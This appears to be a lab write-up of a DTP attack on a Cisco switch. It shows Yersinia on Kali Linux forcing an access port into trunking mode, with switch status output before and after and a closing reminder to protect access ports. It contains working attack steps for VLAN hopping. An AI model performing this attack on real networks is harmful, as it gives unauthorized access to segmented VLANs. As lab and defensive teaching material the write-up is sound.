




# DTP attack

1. Goal
    * Getting an access port into trunking mode. (All VLANs are reachable)

2. Used hardware
    * 1 laptop with Kali Linux
    * 1 Cisco device

3. Used software
    * Kali Linux (2020.1)

4. Setup
    
    

5. Getting started

    1. Check if DTP (Dynamic Trunking Protocol) is enabled on the Cisco device.

    
    
    [More information about DTP](https://en.wikipedia.org/wiki/Dynamic_Trunking_Protocol)
 
    2. Check the status of port on the Cisco switch.

    ```
    Switch#show int gigabitEthernet 0/2 trunk

    Port        Mode             Encapsulation  Status        Native vlan
    Gi0/2       auto             802.1q         not-trunking  1

    Port        Vlans allowed on trunk
    Gi0/2       1

    Port        Vlans allowed and active in management domain
    Gi0/2       1

    Port        Vlans in spanning tree forwarding state and not pruned
    Gi0/2       1
    Switch#
    ```
    3. Install Yersinia on Kali Linux (if necessary)
   
    [More information about Yersinia](https://tools.kali.org/vulnerability-analysis/yersinia)
    
    ```
    kali@kali:~# sudo apt-get update
    kali@kali:~# sudo apt-get upgrade
    kali@kali:~# sudo apt-get install yersinia
    ```
    4. Start Yersinia in Graphical Mode (KALI Linux).

    ```
    kali@kali:~# sudo yersinia -G
    ```
    
    

    5. Select Launch Attack and select DTP

    

    

    6. Check the status of port on the Cisco switch.
    ```
    Switch#show int gigabitEthernet 0/2 trunk

    Port        Mode             Encapsulation  Status        Native vlan
    Gi0/2       auto             802.1q         trunking      1

    Port        Vlans allowed on trunk
    Gi0/2       1-4094

    Port        Vlans allowed and active in management domain
    Gi0/2       1,10,20

    Port        Vlans in spanning tree forwarding state and not pruned
    Gi0/2       1,10,20
    Switch#
6. Conclusion

    * Protect your access ports!